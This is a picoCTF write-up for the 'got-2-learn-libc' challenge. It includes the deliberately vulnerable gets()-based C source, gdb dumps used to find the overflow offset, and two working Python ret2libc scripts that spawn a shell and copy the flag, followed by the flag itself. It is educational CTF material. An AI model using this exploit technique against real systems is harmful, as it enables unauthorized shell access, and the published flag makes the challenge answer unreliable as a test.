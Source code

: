 # Got-2-learn-libc

>This program gives you the address of some system calls.
>Can you get a shell?
>You can find the program in /problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33 on the shell server. Source. 

### [~$ cd ..](../)

The given source is as follows:

> ```c
>#include <stdio.h>
>#include <stdlib.h>
>#include <string.h>
>#include <unistd.h>
>#include <sys/types.h>
>
>#define BUFSIZE 148
>#define FLAGSIZE 128
>
>char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */
>
>
>void vuln(){
>	char buf[BUFSIZE];
>	puts("Enter a string:");
>	gets(buf);
>	puts(buf);
>	puts("Thanks! Exiting now...");
>}
>
>int main(int argc, char **argv){
>
>	setvbuf(stdout, NULL, _IONBF, 0);
>
>	// Set the gid to the effective gid
>	// this prevents /bin/sh from dropping the privileges
>	gid_t gid = getegid();
>	setresgid(gid, gid, gid);
>
>	puts("Here are some useful addresses:\n");
>
>	printf("puts: %p\n", puts);
>	printf("fflush %p\n", fflush);
>	printf("read: %p\n", read);
>	printf("write: %p\n", write);
>	printf("useful_string: %p\n", useful_string);
>
>	printf("\n");
>
>	vuln();
>	return 0;
>}
> ```

The idea here is to exploit `gets` to call `system`, passing "/bin/sh" as parameter. We don't know the address of `system`, but we can compute the constant
difference between its address and, let's say `puts`'s one.

## Find the overflow

A first thing we can do is to find how many bytes we need to write before smashing the return address.

> ```
>gdb-peda$ disas vuln
>Dump of assembler code for function vuln:
>   0x000007a0 <+0>:	push   ebp
>   0x000007a1 <+1>:	mov    ebp,esp
>   0x000007a3 <+3>:	push   ebx
>   0x000007a4 <+4>:	sub    esp,0xa4
>   0x000007aa <+10>:	call   0x670 <__x86.get_pc_thunk.bx>
>   0x000007af <+15>:	add    ebx,0x1851
>   0x000007b5 <+21>:	sub    esp,0xc
>   0x000007b8 <+24>:	lea    eax,[ebx-0x1670]
>   0x000007be <+30>:	push   eax
>   0x000007bf <+31>:	call   0x618
>   0x000007c4 <+36>:	add    esp,0x10
>   0x000007c7 <+39>:	sub    esp,0xc
>   0x000007ca <+42>:	lea    eax,[ebp-0x9c]
>   0x000007d0 <+48>:	push   eax
>   0x000007d1 <+49>:	call   0x5b0 <gets@plt>
>   0x000007d6 <+54>:	add    esp,0x10
>   0x000007d9 <+57>:	sub    esp,0xc
>   0x000007dc <+60>:	lea    eax,[ebp-0x9c]
>   0x000007e2 <+66>:	push   eax
>   0x000007e3 <+67>:	call   0x618
>   0x000007e8 <+72>:	add    esp,0x10
>   0x000007eb <+75>:	sub    esp,0xc
>   0x000007ee <+78>:	lea    eax,[ebx-0x1660]
>   0x000007f4 <+84>:	push   eax
>   0x000007f5 <+85>:	call   0x618
>   0x000007fa <+90>:	add    esp,0x10
>   0x000007fd <+93>:	nop
>   0x000007fe <+94>:	mov    ebx,DWORD PTR [ebp-0x4]
>   0x00000801 <+97>:	leave  
>   0x00000802 <+98>:	ret    
>End of assembler dump.
>gdb-peda$ break *vuln+54
>Breakpoint 1 at 0x7d6
>gdb-peda$ run
>Starting program: .../got-2-learn-libc 
>Here are some useful addresses:
>
>puts: 0xf7e4f890
>fflush 0xf7e4d9f0
>read: 0xf7ec6b60
>write: 0xf7ec6bd0
>useful_string: 0x56557030
>
>Enter a string:
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
> ```

Now, let's count how many bytes there we need to fill the buffer and reach the return address. Our 'A's begin at `0xffffd10c` and 
the address to smash is at `$ebp+4=0xffffd1ac`, then we need 160 bytes:

> ```
>gdb-peda$ info reg ebp
>ebp            0xffffd1a8	0xffffd1a8
>gdb-peda$ x/50wx $esp
>0xffffd0f0:	0xffffd10c	0x00000001	0x00000020	0x565557af
>0xffffd100:	0x565559b8	0x00000020	0xf7e5859b	0x41414141
>0xffffd110:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd120:	0x41414141	0x41414141	0xf7fa0041	0xf7e5abeb
>0xffffd130:	0xf7fa3d60	0xf7fa3da7	0x00000001	0xf7fd4110
>0xffffd140:	0x00000001	0x00000001	0xf7e5ab19	0xf7fa4870
>0xffffd150:	0xf7fa3d60	0xf7fa3000	0xffffd198	0xf7e516c5
>0xffffd160:	0xf7fa3d60	0x0000000a	0xf7e31f7b	0x56557000
>0xffffd170:	0xf7fe800b	0x56557000	0x00000001	0xf7dee700
>0xffffd180:	0xffffd1c8	0xf7fee710	0xf7fa4870	0x56557000
>0xffffd190:	0x00000001	0xf7fa3000	0xffffd1c8	0x565558ec
>0xffffd1a0:	0x0000000a	0x56557000	0xffffd1c8	0x565558f4
>0xffffd1b0:	0x00000001	0xffffd274
> ```

The payload will therefore be composed as follows:

160 \* 'X' + @system + @system + @"/bin/sh"

_The second @system is actually the address for the base pointer, could be whatever we want_

## Find the offset and script it

Second thing we can do is to compute the offset between `@puts` and `@system`.

> ```
>gdb-peda$ print system
>$1 = {<text variable, no debug info>} 0xf7e2a850 <system>
> ```

We previously got the address of `puts`: `0xf7e4f890`. The difference is therefore: 0xf7e4f890-0xf7e2a850 = 151616

Yes, but there is a problem: how can we passed non-ascii addresses to the program during the program execution ? As usual, Python
will be our best friend! Quite dirty but does the job:

> ```python
>import subprocess
>import struct
>
>p = subprocess.Popen(['./vuln'], stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
>
>main = None
>stdout_data = p.stdout.readline()
>useful_address = None
>system = None
>while stdout_data != None:
>	print stdout_data[:-1]
>	index = stdout_data.find('useful_string')
>	if index != -1:
>		useful_address = stdout_data[index+17:index+17+8]
>		p.stdin.write(160 * 'A' + 2 * struct.pack("<I", system) + struct.pack("<I", int(useful_address, 16)) + '\n')
>		break
>	index = stdout_data.find('puts')
>	if index != -1:
>		puts = stdout_data[index+8:index+8+8]
>		system = int(puts, 16)- 151616
>	stdout_data = p.stdout.readline()
>print p.stdout.readline()
>print p.stdout.readline()
>print p.stdout.readline()
>p.stdin.write('touch test.txt\n')
> ```

The script parses the program output to obtain "/bin/sh"'s address and computes the return address. Because of endianess, `struct` is used to write it properly.
However, the output of the shell command, at the end, could not be displayed. To test the script, we `touch`ed a file, and it was a success.

However, on the remote machine, the offset was not the same. We sligthly modified our script:

> ```python
>import subprocess
>import struct
>
>p = subprocess.Popen(['/problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33/vuln'], stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
>
>main = None
>system = None
>stdout_data = p.stdout.readline()
>useful_address = None
>system = None
>while stdout_data != None:
>	print stdout_data[:-1]
>	index = stdout_data.find('useful_string')
>	if index != -1:
>		useful_address = stdout_data[index+17:index+17+8]
>		p.stdin.write(160 * 'A' + 2 * struct.pack("<I", system) + struct.pack("<I", int(useful_address, 16)) + '\n')
>		break
>	index = stdout_data.find('puts')
>	if index != -1:
>		puts = stdout_data[index+8:index+8+8]
>		system = int(puts, 16)- 149504 # /!\ Not the same offset
>	stdout_data = p.stdout.readline()
>print p.stdout.readline()
>print p.stdout.readline()
>print p.stdout.readline()
>p.stdin.write('cp /problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33/flag.txt flag.txt\n')
>print p.stdout.readline()
> ```

We then moved on the remote machine and created a temporary folder with the script inside. We ran it, and saw that a file named `flag.txt` was copied!

FLAG: **picoCTF{syc4al1s_4rE_uS3fUl_6319ec91}**
